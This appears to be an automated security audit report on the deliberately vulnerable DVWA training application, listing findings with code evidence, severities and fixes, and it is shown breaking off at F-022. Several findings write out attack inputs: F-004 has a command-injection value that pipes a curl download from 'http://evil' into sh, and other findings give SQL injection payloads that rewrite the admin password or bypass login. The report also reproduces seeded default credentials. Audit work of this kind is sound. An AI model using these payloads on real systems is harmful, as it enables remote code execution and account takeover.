**Findings index:**<br/>🔴 [F-004](#f-004) — OS command injection in health connectivity check and ping feature<br/>🔴 [F-005](#f-005) — SQL injection in user detail update endpoint<br/>🟠 [F-001](#f-001) — Missing Anti-CSRF Token on State Changes<br/>🟠 [F-002](#f-002) — Broken MD5 hashing used for stored passwords without salt or strength…<br/>🟠 [F-006](#f-006) — Password change does not require the current password<br/>🟠 [F-007](#f-007) — Unauthenticated CBC token exposes padding oracle<br/>🟠 [F-008](#f-008) — Default seeded administrator credentials<br/>🟠 [F-009](#f-009) — Setup seeds accounts with well-known weak default passwords<br/>🟠 [F-011](#f-011) — Stored XSS<br/>🟠 [F-012](#f-012) — Stored XSS<br/>🟠 [F-013](#f-013) — DOM-based XSS from URL default parameter written<br/>🟠 [F-014](#f-014) — SQL injection<br/>🟠 [F-015](#f-015) — SQL injection<br/>🟠 [F-016](#f-016) — SQL injection<br/>🟠 [F-017](#f-017) — SQL injection in brute-force login query<br/>🟠 [F-018](#f-018) — Second-order SQL injection<br/>🟠 [F-019](#f-019) — SQL injection<br/>🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping<br/>🟠 [F-021](#f-021) — Blind SQL injection<br/>🟠 [F-022](#f-022) — Blind SQL injection<br/>🟠 [F-023](#f-023) — Blind SQL injection<br/>🟠 [F-024](#f-024) — Unauthenticated database reset in setup page<br/>🟠 [F-025](#f-025) — CSRF check bypass<br/>🟠 [F-026](#f-026) — All repository secrets dumped base64-encoded to workflow<br/>🟠 [F-027](#f-027) — Hardcoded MariaDB root and application passwords in compose<br/>🟠 [F-028](#f-028) — Path traversal in source viewer discloses<br/>🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source<br/>🟠 [F-030](#f-030) — Unsalted MD5 password hashing<br/>🟠 [F-032](#f-032) — Unvalidated page parameter passed to PHP include<br/>🟠 [F-033](#f-033) — File inclusion<br/>🟠 [F-034](#f-034) — File inclusion<br/>🟠 [F-035](#f-035) — Unrestricted file upload stores any file under its client name<br/>🟠 [F-036](#f-036) — Upload type check trusts client-supplied MIME type<br/>🟠 [F-037](#f-037) — Unauthenticated ECB session token allows block splicing<br/>🟠 [F-038](#f-038) — CBC padding oracle on token check endpoint<br/>🟠 [F-039](#f-039) — Admin-only user endpoints gated<br/>🟡 [F-003](#f-003) — Raw Database Error Disclosure to Client<br/>🟡 [F-040](#f-040) — Hardcoded weak MariaDB root and application credentials<br/>🟡 [F-041](#f-041) — Login lacks attempt throttling or lockout<br/>🟡 [F-042](#f-042) — No login attempt limiting on brute-force form<br/>🟡 [F-043](#f-043) — Hardcoded encryption key and static secret allow API token<br/>🟡 [F-044](#f-044) — Session fixation<br/>🟡 [F-045](#f-045) — Debug CAPTCHA backdoor left in production code<br/>🟡 [F-046](#f-046) — Login passwords submitted in GET query strings<br/>🟡 [F-047](#f-047) — Open redirect substring allow check bypassable<br/>🟡 [F-048](#f-048) — Open redirect to arbitrary URL<br/>🟡 [F-049](#f-049) — Open redirect scheme denylist bypassable<br/>🟡 [F-050](#f-050) — CAPTCHA state trusted from client-supplied field<br/>🟡 [F-051](#f-051) — Hardcoded client secret and user password in API login<br/>🟡 [F-052](#f-052) — Static access token accepted from the URL query string<br/>🟡 [F-053](#f-053) — CAPTCHA bypass by submitting step 2 directly<br/>🟡 [F-054](#f-054) — API-created users all receive the same default password<br/>🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning<br/>🟡 [F-056](#f-056) — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs<br/>🟡 [F-057](#f-057) — Request URI reflected unescaped into inline script string<br/>🟡 [F-058](#f-058) — Reflected XSS of username on brute-force login<br/>🟡 [F-059](#f-059) — Reflected XSS<br/>🟡 [F-060](#f-060) — Reflected script injection bypassing permissive CSP<br/>🟡 [F-061](#f-061) — Unvalidated JSONP callback reflected into script response<br/>🟡 [F-062](#f-062) — Reflected XSS of username in test credentials page<br/>🟡 [F-063](#f-063) — Reflected XSS<br/>🟡 [F-064](#f-064) — Reflected cross-site scripting<br/>🟡 [F-065](#f-065) — Reflected name parameter rendered without HTML encoding<br/>🟡 [F-066](#f-066) — Stored XSS payloads accepted into guestbook entries<br/>🟡 [F-067](#f-067) — Access log trusts client X-Forwarded-For as source IP<br/>🟡 [F-068](#f-068) — Legacy v1 user API discloses password hashes<br/>🟡 [F-069](#f-069) — Repeating-key XOR used as message encryption<br/>🟡 [F-070](#f-070) — Broken hash primitive<br/>🟡 [F-071](#f-071) — Config backup with DB credentials copied into web root<br/>🟡 [F-072](#f-072) — Attacker-triggerable account lockout<br/>🟡 [F-073](#f-073) — Workflows lack explicit permissions block<br/>🟡 [F-074](#f-074) — Container Runs as Root<br/>🟡 [F-075](#f-075) — Missing Workflow Permissions Block<br/>🟡 [F-076](#f-076) — Help page evals contents<br/>🟡 [F-077](#f-077) — Eval of help file chosen by request path<br/>🟡 [F-078](#f-078) — Image upload keeps original name without re-encoding<br/>🟡 [F-079](#f-079) — Security controls gated by client-controlled cookie<br/>🟡 [F-080](#f-080) — Profile authorization trusts client user_id<br/>🟡 [F-081](#f-081) — IDOR guarded by static public token<br/>🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment<br/>🟡 [F-100](#f-100) — User keeps using a withdrawn right

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-07"></a><a id="th-09"></a><a id="th-11"></a><a id="th-15"></a><a id="th-16"></a><a id="th-12"></a><a id="th-14"></a><a id="th-17"></a><a id="th-18"></a>

### 🔴 Critical (2)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · OS command injection in health connectivity check and ping feature

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (7)

**Found by:** survey, scanners and verification ([TC-INPUT-03](#tc-input-03))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-001](#w-001) - Application data builds operating-system commands

**Instances (7):** `vulnerabilities/api/src/HealthController.php`: 88; `vulnerabilities/exec/source/low.php`: 14, 10; `vulnerabilities/exec/source/medium.php`: 23, 19; `vulnerabilities/exec/source/high.php`: 30, 26

**Issue:** Request data reaches shell commands, which gives the attacker arbitrary command execution as the web server user. At `vulnerabilities/api/src/HealthController.php:88`, an unauthenticated attacker POSTs JSON such as `{"target":"127.0.0.1;id"}` or `{"target":"x; curl http://evil/s|sh"}` to `/vulnerabilities/api/v2/health/connectivity`.

The API front controller routes health commands without authentication, and the target value is concatenated unvalidated and unescaped into an `exec()` ping command. The finding holds 7 places, more than the locations cited here.

**Evidence:** ✓ verified

```
vulnerabilities/api/src/HealthController.php
  85 │ 		if (array_key_exists ("target", $input)) {
  86 │ 			$target = $input['target'];
  87 │
→ 88 │ 			exec ("ping -c 4 " . $target, $output, $ret_var);
  89 │
  90 │ 			if ($ret_var == 0) {
  91 │ 				$response['status_code_header'] = 'HTTP/1.1 200 OK';
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ● [M-013](#m-013) — Validate target host and use escapeshellarg

**Classification:** Injection · STRIDE: Tampering · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-03](#tc-input-03) · Rules: INJ-PHP-002 · walkthrough [Walkthrough §3.1](#31-os-command-injection-in-health-connectivity-check-and-ping-feature)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · SQL injection in user detail update endpoint

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/authbypass/change_user_details.php:47`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Trust boundary gap:** [tb-2](#tb-2) - DVWA Web Application → MariaDB Database · Query construction: Request JSON fields become SQL text sent to MariaDB, which breaks the data-interpretation assumption of this boundary.

**Issue:** An attacker sets the cookie `security=low` and POSTs JSON `{"id":"1","first_name":"x', password=md5('pw') -- ","surname":"y"}` to `change_user_details.php`. The concatenated UPDATE runs the injected SQL and rewrites the admin password.

**Evidence:** ✓ verified

```
  44 │ 	exit;
  45 │ }
  46 │
→ 47 │ $query = "UPDATE users SET first_name = '" . $data->first_name . "', last_name = '" .  $data->surname . "' where user_id = " . $data->id . "";
  48 │ $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  49 │
  50 │ print json_encode (array ("result" => "ok"));
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-014](#m-014) — Use prepared statements for user update query

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.2](#32-sql-injection-in-user-detail-update-endpoint)

### 🟠 High (34)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Hardcoded MariaDB root and application passwords in compose

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `compose.yml:31`

**Found by:** survey, scanners and verification ([TC-DATA-03](#tc-data-03))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Issue:** At `compose.yml:31` the service environment holds literal credentials: `MYSQL_ROOT_PASSWORD`=dvwa and the application database password. Anyone with repository access or a copy of the compose file can read them, and every deployment that uses the file runs with the same credentials.

That attacker can then take full control of MariaDB and read or change all application data.

**Evidence:** ✓ verified

```yaml
  29 │     image: docker.io/library/mariadb:10
  30 │     environment:
→ 31 │       - MYSQL_ROOT_PASSWORD=dvwa
  32 │       - MYSQL_DATABASE=dvwa
  33 │       - MYSQL_USER=dvwa
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-007](#m-007) — docker-compose secrets supplied by reference

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-DATA-03](#tc-data-03) · Rules: IAC-023

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Hardcoded symmetric encryption keys in source

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed; elevated to Critical as a verified attack-chain keystone in AC-T-005 (Authentication Bypass via Exposed Secret Material); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Instances (2):** `vulnerabilities/cryptography/source/token_library_impossible.php`: 3; `vulnerabilities/cryptography/source/token_library_high.php`: 3

**Issue:** Anyone who reads the source, which DVWA exposes through `view_source`, learns the keys: 'rainbowclimbinghigh' is shared by the CBC and GCM token libraries, and the ECB and XOR keys are also embedded. With these keys an attacker can decrypt or mint tokens.

**Evidence:** ✓ verified - A signing key is embedded as a literal constant in source.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ● [M-035](#m-035) — Load keys from a secret store

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · walkthrough [Walkthrough §3.3](#33-hardcoded-symmetric-encryption-keys-in-source)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Broken MD5 hashing used for stored passwords without salt or strength policy

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (5)

**Found by:** scanners and verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-008](#w-008) - Security-sensitive data uses weak cryptographic primitives

**Instances (5):** `dvwa/includes/dvwaPage.inc.php`: 651; `vulnerabilities/captcha/source/impossible.php`: 14; `vulnerabilities/csrf/test_credentials.php`: 19; `vulnerabilities/javascript/index.php`: 43; `vulnerabilities/javascript/source/low.php`: 18

**Issue:** Uses a broken hash primitive (`MD5`/SHA-1). These algorithms are collision-broken and unsafe for passwords or for the integrity of untrusted data. The finding holds 5 places, more than the locations cited here.

**Evidence:** ✓ verified

```
dvwa/includes/dvwaPage.inc.php
  649 │ 		destroySessionToken();
  650 │ 	}
→ 651 │ 	$_SESSION[ 'session_token' ] = md5( uniqid() );
  652 │ }
  653 │
```

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-011](#m-011) — Use modern cryptographic hash and KDF algorithms

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-PHP-001

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Password change does not require the current password

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/csrf/source/low.php:9`

**Found by:** verification ([TC-AUTHN-05](#tc-authn-05))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-009](#w-009) - Password change does not require the current password (`low.php:9`)

**Issue:** An attacker with a victim's session, or one who can trigger a GET request through the victim's browser, calls the password change with matching new and confirm values. The victim's password is replaced without the current password, which lets the attacker take over the account.

**Evidence:** ✓ verified - The handler reads `password_new` and `password_conf` from \$_GET (line 5), checks only that they are equal (line 9), and updates `users.password` (line 16).

```
   7 │
   8 │ 	// Do the passwords match?
→  9 │ 	if( $pass_new == $pass_conf ) {
  10 │ 		// They do!
  11 │ 		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
```

**Fix:** ◕ [M-015](#m-015) — Verify the current password before any password change

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-620](https://cwe.mitre.org/data/definitions/620.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-05](#tc-authn-05)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Unauthenticated CBC token exposes padding oracle

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/token_library_high.php:26`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The token is AES-128-CBC with no MAC, and `check_token` returns status 526 on decryption failure but other statuses otherwise. Through the unauthenticated `check_token_high.php` endpoint, a client can use this oracle to alter the userid in a token and be resolved as the admin user.

**Evidence:** ✓ verified

```
  24 │ 		throw new Exception ("IV must be 16 bytes, " . strlen ($iv) . " passed");
  25 │ 	}
→ 26 │ 	$e = openssl_decrypt($ciphertext, ALGO, KEY, OPENSSL_RAW_DATA, $iv);
  27 │ 	if ($e === false) {
  28 │ 		throw new Exception ("Decryption failed");
```

**Fix:** ◕ [M-016](#m-016) — Use authenticated encryption with uniform errors

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-649](https://cwe.mitre.org/data/definitions/649.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Default seeded administrator credentials

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:55`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Setup seeds admin/password and other dictionary passwords, and `setup.php` advertises admin // password; an attacker reaching `login.php` logs in as admin with them.

**Evidence:** ✓ verified

```
  53 │
  54 │ $insert = "INSERT INTO users VALUES
→ 55 │ 	('1','admin','admin','admin',MD5('password'),'{$avatarUrl}admin.jpg', NOW(), '0'),
  56 │ 	('2','Gordon','Brown','gordonb',MD5('abc123'),'{$avatarUrl}gordonb.jpg', NOW(), '0'),
  57 │ 	('3','Hack','Me','1337',MD5('charley'),'{$avatarUrl}1337.jpg', NOW(), '0'),
```

**Fix:** ◕ [M-017](#m-017) — Force unique admin password

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-1392](https://cwe.mitre.org/data/definitions/1392.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Setup seeds accounts with well-known weak default passwords

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:55`

**Found by:** verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Running setup creates admin and other users with passwords such as 'password', 'abc123' and 'letmein'. An attacker who reaches the login form signs in as admin with admin/password.

**Evidence:** ✓ verified - The `INSERT INTO users` statement seeds admin with `MD5('password')` and smithy with `MD5('password')`. The PGSQL setup does the same.

```
  53 │
  54 │ $insert = "INSERT INTO users VALUES
→ 55 │ 	('1','admin','admin','admin',MD5('password'),'{$avatarUrl}admin.jpg', NOW(), '0'),
  56 │ 	('2','Gordon','Brown','gordonb',MD5('abc123'),'{$avatarUrl}gordonb.jpg', NOW(), '0'),
  57 │ 	('3','Hack','Me','1337',MD5('charley'),'{$avatarUrl}1337.jpg', NOW(), '0'),
```

**Fix:** ◕ [M-018](#m-018) — Remove default passwords and force setting on first use

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-1393](https://cwe.mitre.org/data/definitions/1393.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · SQL injection

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:37`

**Reliability:** Low. Not confirmed, this may be a false positive: Line 37 concatenates \$_DVWA\['db_database'\], a config value; no request-controlled input is shown reaching it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** Interpolated/concatenated request data in SQL lets an attacker alter the query.

**Evidence:** ◌ ambiguous

```
  35 │
  36 │ // Create table 'users'
→ 37 │ if( !@((bool)mysqli_query($GLOBALS["___mysqli_ston"], "USE " . $_DVWA[ 'db_database' ])) ) {
  38 │ 	dvwaMessagePush( 'Could not connect to database.' );
  39 │ 	dvwaPageReload();
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◑ [M-001](#m-001) — Manual review: verify SQL injection via interpolated/concatenated query PHP… · ◕ [M-022](#m-022) — Use prepared statements

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-01](#tc-input-01) · Rules: INJ-PHP-001

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · SQL injection

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:571`

**Reliability:** Low. Not confirmed, this may be a false positive: Line 571 concatenates \$_DVWA\['db_database'\] config into USE; no request-controlled source shown.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** Interpolated/concatenated request data in SQL lets an attacker alter the query.

**Evidence:** ◌ ambiguous

```
  569 │ 	if( $DBMS == 'MySQL' ) {
  570 │ 		if( !@($GLOBALS["___mysqli_ston"] = mysqli_connect( $_DVWA[ 'db_server' ],  $_DVWA[ 'db_user' ],  $_DVWA[ 'db_password' ], "", $_DVWA[ 'db_port' ] ))
→ 571 │ 		|| !@((bool)mysqli_query($GLOBALS["___mysqli_ston"], "USE " . $_DVWA[ 'db_database' ])) ) {
  572 │ 			//die( $DBMS_connError );
  573 │ 			dvwaLogout();
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◑ [M-002](#m-002) — Manual review: verify SQL injection via interpolated/concatenated query PHP… · ◕ [M-022](#m-022) — Use prepared statements

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-01](#tc-input-01) · Rules: INJ-PHP-001

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/bac/source/low.php:81`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An attacker sends a crafted X-Forwarded-For header. It is interpolated unescaped into the `bac_log` INSERT, which allows injected SQL such as subquery-based exfiltration into log rows or time-based blind injection.

**Evidence:** ✓ verified

```
  79 │             $log_query = "INSERT INTO bac_log (user_id, target_id, ip_address) VALUES
  80 │                         ({$current_user_id}, {$target_id}, '{$ip}')";
→ 81 │             mysqli_query($GLOBALS["___mysqli_ston"], $log_query);
  82 │         } catch (Exception $e) {
  83 │             // Silently fail if logging doesn't work
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-023](#m-023) — Bind log values with prepared statements

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · SQL injection in brute-force login query

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/brute/source/low.php:13`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Trust boundary gap:** [tb-2](#tb-2) - DVWA Web Application → MariaDB Database · Query construction: Request-derived username becomes SQL text sent to MariaDB, breaking the data-interpretation assumption.

**Issue:** An authenticated user sends `username=admin`'-- to the brute force page. The raw value is concatenated into the SELECT and run by `mysqli_query`. This bypasses the password check and lets the attacker run arbitrary SQL against MariaDB.

**Evidence:** ✓ verified

```
  11 │ 	// Check the database
  12 │ 	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
→ 13 │ 	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  14 │
  15 │ 	if( $result && mysqli_num_rows( $result ) == 1 ) {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-024](#m-024) — Use prepared statements for login lookup

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.4](#34-sql-injection-in-brute-force-login-query)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Second-order SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli/source/high.php:11`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An authenticated user posts a crafted id to `session-input.php`. The value is stored in the session unvalidated and later concatenated into SQL by `sqli/source/high.php`, allowing data extraction.

**Evidence:** ✓ verified

```
   9 │ 			// Check database
  10 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
→ 11 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
  12 │
  13 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-025](#m-025) — Bind session id via prepared statement

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.5](#35-second-order-sql-injection-in-high)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli/source/low.php:11`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Trust boundary gap:** [tb-2](#tb-2) - DVWA Web Application → MariaDB Database · Query construction: Request-derived id becomes SQL text sent to MariaDB, which breaks the data-interpretation assumption.

**Issue:** An authenticated user supplies an id value that breaks out of the quoted literal. Because it is concatenated into the SELECT, the user can read other tables such as user password hashes.

**Evidence:** ✓ verified

```
   9 │ 			// Check database
  10 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
→ 11 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  12 │
  13 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-026](#m-026) — Use prepared statements with bound integer id

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.6](#36-sql-injection-in-low)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · SQL injection in unquoted numeric context despite escaping

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli/source/medium.php:12`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An authenticated user tampers with the POST id. The value is escaped but placed unquoted in the WHERE clause, so SQL syntax without quotes alters the query and reads other data.

**Evidence:** ✓ verified

```
  10 │ 		case MYSQL:
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
→ 12 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
  13 │
  14 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-027](#m-027) — Bind id as integer parameter in prepared query

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.7](#37-sql-injection-in-unquoted-numeric-context-despite-escaping)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Blind SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli_blind/source/high.php:13`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An authenticated user sets the id cookie, either directly or through `cookie-input.php`, to a crafted value that is concatenated into SQL, and infers data from the exists/404 responses.

**Evidence:** ✓ verified

```
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
  12 │ 			try {
→ 13 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  14 │ 			} catch (Exception $e) {
  15 │ 				$result = false;
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-028](#m-028) — Parameterize query and validate cookie id

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Blind SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli_blind/source/low.php:13`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An authenticated user injects boolean conditions through id and infers database contents from the exists/missing response.

**Evidence:** ✓ verified

```
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
  12 │ 			try {
→ 13 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  14 │ 			} catch (Exception $e) {
